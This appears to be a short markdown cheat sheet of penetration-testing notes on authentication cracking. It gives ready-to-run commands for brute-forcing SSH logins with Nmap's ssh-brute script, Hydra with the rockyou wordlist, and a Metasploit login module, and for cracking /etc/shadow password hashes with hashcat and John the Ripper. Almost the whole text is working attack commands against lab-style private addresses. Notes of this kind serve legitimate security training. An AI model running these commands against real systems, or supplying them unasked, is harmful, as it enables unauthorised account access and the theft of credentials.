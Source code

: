 #### Authentication Cracking
|Types|Bruteforce Attack | Dictionary Attack |
|---|---|---|

> Factors Affecting Online Password Cracking: Latency, Delay, Processing time,etc....

#### SSH Bruteforce With Nmap

```
nmap 192.168.143.67 -p 22 --script ssh-brute --script-args userdb=username.txt,passdb=password.txt

```

#### SSH Bruteforce With Hydra
```
hydra -l student -P /usr/share/wordlists/rockyou.txt ssh://192.194.185.3 -f

```

#### SSH Bruteforce With Metasploit
```
scanner/ssh/ssh_login module
```

#### Crack /etc/hashes With hahcat and John
```
/etc/login.defs >> Check Hashing Algorithm

hashcat -m 1800 admin.hash /root/Desktop/wordlists/1000000-password-seclists.txt --force

john /etc/shadow --wordlist=/root/Desktop/wordlists/1000000-password-seclists.txt

```
